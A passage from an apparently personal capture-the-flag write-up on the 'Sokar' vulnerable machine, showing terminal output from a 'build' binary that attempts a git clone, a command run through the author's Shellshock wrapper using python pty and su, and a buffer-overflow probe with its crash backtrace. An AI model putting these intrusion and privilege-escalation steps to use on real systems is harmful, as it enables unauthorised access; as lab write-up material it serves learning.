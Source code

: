 ```bash
leonjza@kali/sokar $ ./build
Build? (Y/N) Y
Cloning into '/mnt/secret-project'...
ssh: Could not resolve hostname sokar-dev:: Name or service not known
fatal: The remote end hung up unexpectedly
```

That looks very much like the output of a git clone attempt. Knowing what the binary expects now, I continued to run this on Sokar via my Shellshock wrapper for `apophis`:

```bash
leonjza@kali/sokar $ python apophis.py "echo Y | /home/apophis/build"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','echo Y | /home/apophis/build', 'apophis']);"

Password:
Cloning into '/mnt/secret-project'...
ssh: Could not resolve hostname sokar-dev: Temporary failure in name resolution
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
Build? (Y/N)
```

The same hostname resolution failure occurred. Hmm. Thinking about this, it looks like it is trying to clone a repository (as root??) to `/mnt/secret-project` from `sokar-dev` which does not resolve.

### the impossible b0f
I was very unsure about what the next move should be. Playing around some more with the binary, it appeared as though there may be a buffer overflow problem when providing a answer to `build.`:

```bash
leonjza@kali/sokar $ ./build
Build? (Y/N) YY
*** buffer overflow detected ***: ./build terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x37)[0x2b53e6df5fe7]
/lib/x86_64-linux-gnu/libc.so.6(+0xefea0)[0x2b53e6df4ea0]
/lib/x86_64-linux-gnu/libc.so.6(__gets_chk+0x195)[0x2b53e6df4df5]
./build(main+0xea)[0x2b53e68e29d9]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xfd)[0x2b53e6d23ead]
./build(+0x7d9)[0x2b53e68e27d9]
======= Memory map: ========
2b53e68e2000-2b53e68e3000 r-xp 00000000 fe:00 667555                     /root/sokar/build
2b53e68e3000-2b53e68e7000 rwxp 00000000 00:00 0
2b53e6900000-2b53e6902000 rwxp 00000000 00:00 0
2b53e6ae2000-2b53e6ae3000 rwxp 00000000 fe:00 667555                     /root/sokar/build
2b53e6ae3000-2b53e6b03000 r-xp 00000000 fe:00 532890                     /lib/x86_64-linux-gnu/ld-2.13.so
2b53e6d02000-2b53e6d03000 r-xp 0001f000 fe:00 532890                     /lib/x86_64-linux-gnu/ld-2.13.so
2b53e6d03000-2b53e6d04000 rwxp 00020000 fe:00 532890                     /lib/x86_64-linux-gnu/ld-2.13.so
2b53e6d04000-2b53e6d05000 rwxp 00000000 00:00 0
2b53e6d05000-2b53e6e87000 r-xp 00000000 fe:00 534538                     /lib/x86_64-linux-gnu/libc-2.13.so
2b53e6e87000-2b53e7087000 ---p 00182000 fe:00 534538                     /lib/x86_64-linux-gnu/libc-2.13.so
2b53e7087000-2b53e708b000 r-xp 00182000 fe:00 534538                     /lib/x86_64-linux-gnu/libc-2.13.so
2b53e708b000-2b53e708c000 rwxp 00186000 fe:00 534538                     /lib/x86_64-linux-gnu/libc-2.13.so
2b53e708c000-2b53e7091000 rwxp 00000000 00:00 0
```